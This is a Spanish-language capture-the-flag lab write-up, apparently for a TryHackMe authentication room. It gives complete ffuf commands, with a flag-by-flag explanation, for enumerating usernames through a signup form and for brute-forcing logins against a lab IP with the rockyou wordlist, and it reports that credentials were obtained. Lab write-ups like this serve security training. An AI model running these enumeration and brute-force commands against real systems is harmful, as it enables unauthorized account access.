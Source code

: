 Task 1  Brief

openvpn

Task 2


![image](https://user-images.githubusercontent.com/92405961/217765551-5cb88aa8-c482-4f61-862f-ac1ea17f3b58.png)

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.244.198/customers/signup -mr "username already exists" -o validusers.txt -t 200

-w wordlist usuarios
-X metodo (GET, POST, ETC)
-d especificamos la data que vamos a enviar (donde se encuentra el FUZZ es donde se introduciran los valores de la lista)
-H agrega headers adicionales
-u especifica la url
-mr es el texto que esperamos la pagina nos devuelta, en este caso es que ese nombre de usuario ya existe
-o para indicar un output al resultado del comando
-t para indicar cuantos threads poner en funcionamiento, a mayor cantidad, mas rapido se hara el trabajo.

![image](https://user-images.githubusercontent.com/92405961/217763558-9a7cbc62-93b5-4b57-91eb-f444ee741b85.png)

![image](https://user-images.githubusercontent.com/92405961/217763861-a1ea0281-ee3a-4cdd-8f2d-88c3ffd5ae68.png)

Una vez ejecutado el comando podemos completar las respuestas

![image](https://user-images.githubusercontent.com/92405961/217765821-4952a138-231d-41c8-8b3c-a1642d20092e.png)

Task 3 Brute Force

Ahora que conocemos los nombres de usuario podemos intentar realizar un ataque de fuerza bruta.

Para ello seguiremos utilizando la herramienta fuff

ffuf -w validusers.txt:W1,/home/kali/Tryhackme/rockyou.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.244.198/customers/login -fc 200 -t 200

En este caso -w esta compuesto de dos listas, la primera aclarada con W1 y la segunda con W2
En -d especificamos que la W1 sera utilizada en el nombre de usuario y W2 en contraseña (recordar que poseemos los nombres de usuario de la tarea anterior y las contraseñas de alguna lista disponible)
Con el -fc logramos que nos devuelta un codigo en particular (en este caso, el 200 que es OK para HTTP/HTTPS)

Una vez ejecutado el comando, conseguimos nuestras primeras credenciales de acceso

![image](https://user-images.githubusercontent.com/92405961/217768638-86bb6828-bf65-4e80-8fa1-fec17390b80e.png)

Comprobamos que podemos acceder con las credenciales
![image](https://user-images.githubusercontent.com/92405961/217768950-9e8e701b-59c3-4bf6-9230-9d0d3ce2b2d9.png)





